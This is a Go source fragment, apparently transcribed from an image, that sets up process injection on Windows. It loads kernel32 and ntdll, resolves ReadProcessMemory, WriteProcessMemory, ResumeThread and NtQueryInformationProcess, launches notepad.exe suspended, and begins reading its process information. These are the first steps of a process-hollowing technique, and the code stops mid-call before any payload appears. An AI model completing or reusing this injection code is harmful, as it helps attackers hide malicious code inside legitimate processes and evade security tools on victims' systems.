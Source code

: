 ```go
  kernel32 := windows.NewLazyDLL("kernel32.dll")
  ntdll := windows.NewLazyDLL("ntdll.dll")

  // Declare functions that will be used
  ReadProcessMemory := kernel32.NewProc("ReadProcessMemory")
  WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")
  ResumeThread := kernel32.NewProc("ResumeThread")
  NtQueryInformationProcess := ntdll.NewProc("NtQueryInformationProcess")

  var info int32
  var returnLength int32

  var pbi windows.PROCESS_BASIC_INFORMATION
  var si windows.StartupInfo
  var pi windows.ProcessInformation

/*
BOOL CreateProcessA(
  [in, optional]      LPCSTR                lpApplicationName,
  [in, out, optional] LPSTR                 lpCommandLine,
  [in, optional]      LPSECURITY_ATTRIBUTES lpProcessAttributes,
  [in, optional]      LPSECURITY_ATTRIBUTES lpThreadAttributes,
  [in]                BOOL                  bInheritHandles,
  [in]                DWORD                 dwCreationFlags,
  [in, optional]      LPVOID                lpEnvironment,
  [in, optional]      LPCSTR                lpCurrentDirectory,
  [in]                LPSTARTUPINFOA        lpStartupInfo,
  [out]               LPPROCESS_INFORMATION lpProcessInformation
);
*/

  fmt.Println("[*] Calling CreateProcess...")
  err := windows.CreateProcess(
    nil,
    syscall.StringToUTF16Ptr("C:\\Windows\\System32\\notepad.exe"),
    nil,
    nil,
    false,
    windows.CREATE_SUSPENDED,
    nil,
    nil,
    &si,
    &pi,
  )
  if err != nil {
    log.Fatal(err)
  }

/*
__kernel_entry NTSTATUS NtQueryInformationProcess(
  [in]            HANDLE           ProcessHandle,
  [in]            PROCESSINFOCLASS ProcessInformationClass,
  [out]           PVOID            ProcessInformation,
  [in]            ULONG            ProcessInformationLength,
  [out, optional] PULONG           ReturnLength
);
*/

  fmt.Println("[*] Calling NtQueryInformationProcess...")
  NtQueryInformationProcess.Call(
    uintptr(pi.Process),
    uintptr(info),
    uintptr(unsafe.Pointer(&pbi)),
```